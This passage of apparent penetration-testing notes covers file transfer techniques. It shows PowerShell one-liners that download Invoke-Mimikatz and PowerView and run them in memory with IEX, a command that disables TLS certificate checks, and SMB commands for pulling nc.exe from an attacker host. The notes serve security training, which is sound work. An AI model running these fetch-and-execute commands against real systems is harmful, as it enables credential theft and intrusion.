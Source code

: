 **Fileless Method**
As we previously discussed, fileless attacks work by using some operating system functions to download the payload and execute it directly. PowerShell can also be used to perform fileless attacks. Instead of downloading a PowerShell script to disk, we can run it directly in memory using the Invoke-Expression cmdlet or the alias IEX.

```bash
PS > IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')


PS > (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1') | IEX
```

**Invoke-WebRequest**
From PowerShell 3.0 onwards, the Invoke-WebRequest cmdlet is also available, but it is noticeably slower at downloading files. You can use the aliases iwr, curl, and wget instead of the Invoke-WebRequest full name.

```bash
PS > Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1`
```

**Common Errors with PowerShell**
There may be cases when the Internet Explorer first-launch configuration has not been completed, which prevents the download..
This can be bypassed using the parameter -UseBasicParsing.

```bash
PS > Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing | IEX`
```

Another error in PowerShell downloads is related to the SSL/TLS secure channel if the certificate is not trusted. We can bypass that error with the following command:

```bash
PS > IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')

PS > [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
```

## SMB Downloads
**Create the SMB Server**
```bash
$ sudo impacket-smbserver share -smb2support /tmp/smbshare
```

**Copy a File from the SMB Server**
New versions of Windows block unauthenticated guest access, as we can see in the following command:

```bash
C:\home> copy \\192.168.220.133\share\nc.exe

You can't access this shared folder because your organization's security policies block unauthenticated guest access. These policies help protect your PC from unsafe or malicious devices on the network.
```
